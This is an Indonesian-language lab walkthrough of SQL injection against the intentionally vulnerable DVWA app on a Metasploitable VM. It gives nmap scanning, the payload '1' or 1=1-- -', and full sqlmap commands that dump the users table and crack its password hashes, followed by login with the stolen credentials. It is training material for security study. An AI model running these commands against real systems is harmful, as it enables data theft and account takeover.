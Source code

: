 # Introduction

**SQL Injection** (SQLi) adalah salah satu jenis serangan siber yang paling umum. Serangan ini terjadi ketika seorang penyerang memasukkan (menginjeksi) kode SQL berbahaya **melalui input aplikasi web**, seperti kolom login atau formulir pencarian.

Tujuannya adalah untuk memanipulasi perintah SQL yang dijalankan di sisi server, memungkinkan penyerang untuk:

- Melewati otentikasi (login tanpa kata sandi).

- Mengakses, memodifikasi, atau menghapus data sensitif di database.

- Bahkan mendapatkan kontrol penuh atas server.

**Eksploitasi dengan sqlmap**

sqlmap adalah alat otomatis yang dirancang untuk mendeteksi dan mengeksploitasi kerentanan SQLi. Alat ini tidak menemukan kerentanan itu sendiri, tetapi secara otomatis menjalankan berbagai serangan untuk membuktikan kerentanan dan mengambil data. sqlmap bekerja dengan menggunakan berbagai teknik injeksi untuk berinteraksi dengan basis data.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

- Memindai port server, yaitu `80 (http)` dan `443 (https)` pada IP target
```
nmap -p 80,443 --script=http-enum <ip_metasploitable>
```
Script `http-enum` digunakan untuk membantu menemukan direktori yang tersembunyi.
```
PORT    STATE  SERVICE
80/tcp  open   http
| http-enum: 
|   /tikiwiki/: Tikiwiki
|   /test/: Test page
|   /phpinfo.php: Possible information file
|   /phpMyAdmin/: phpMyAdmin
|   /doc/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) dav/2'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder
443/tcp closed https
```
- Eksplorasi Web Server menggunakan browser
```
<ip_metasploitable>/dvwa
```
Kita akan menggunakan **Damn Vulnerable Web Application** (DVWA) sebagai sistem untuk melakukan simulasi serangan melalui **Command Injection**

**3. _Gaining Access (Exploitation)_**
- Login ke DVWA
```
username : admin
password : password
```
- Merubah security level ke low
```
DVWA Security -> Script Security -> Low -> Submit
```
- Mencoba SQL Injection
```
1' or 1=1-- -
```
- `1'`:Tanda kutip tunggal (') mengakhiri string di dalam kueri SQL, sehingga memungkinkan Anda menyisipkan kode Anda sendiri.

- `or 1=1`: Kondisi ini akan selalu bernilai benar. 1 sama dengan 1, jadi kondisi OR akan membuat seluruh kueri menjadi benar.

- `--`: Ini adalah komentar di SQL. Tanda ini akan membuat bagian selanjutnya dari kueri (yaitu, verifikasi kata sandi) diabaikan oleh database.

```
ID: 1' or 1=1-- -
First name: admin
Surname: admin
```
- Menggunakan SQLMAP untuk proses lebih lanjut

```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" --dbs
```
- Perlu mengganti `PHPSESSID` dengan cookie Anda. Buka browser, masuk ke DVWA, klik kanan, pilih "Inspect Element" (atau "Developer Tools"), dan cari `cookie` di bagian "Storage" atau "Application".
- `-u`: Menentukan URL target.
- `--cookie`: Mengirim cookie sesi Anda, yang diperlukan agar sqlmap bisa masuk ke halaman yang rentan.
- `--dbs`: Menginstruksikan sqlmap untuk **menampilkan daftar database** yang ada.

```
[07:48:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[07:48:59] [INFO] fetching database names
available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```
- Mencari tabel dalam suatu database
```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" -D dvwa --tables
```
Gunakan sqlmap dengan bendera (_flag_) `-D` untuk menentukan database yang ingin dituju, yaitu `dvwa`, dan bendera `--tables` untuk mendaftar tabel yang ada di dalamnya.
```
[07:52:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[07:52:59] [INFO] fetching tables for database: 'dvwa'
[07:52:59] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
- Mengambil data dari tabel users
```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" -D dvwa -T users --dump
```
- `-T` users: Menentukan tabel yang ingin Anda tuju.
- `--dump`: Menginstruksikan sqlmap untuk mengekstrak semua data dari tabel tersebut.
- Proses `cracking password` yang diperoleh dari pemindaian tabel user

```
[09:14:46] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[09:15:01] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[09:15:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
```
```
Database: dvwa                                                                 
Table: users
[5 entries]
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user    | avatar                                                | password                                    | last_name | first_name |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| 1       | admin   | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
| 2       | gordonb | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
| 3       | 1337    | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
| 4       | pablo   | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
| 5       | smithy  | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
```
**4. _Maintaining accsess dan Post exploitation_**
- Mencoba login menggunakan data yang ditemukan 
```
<ip_metasploitable>/dvwa
```
```
Ex.  username : pablo
     password : letmein
```

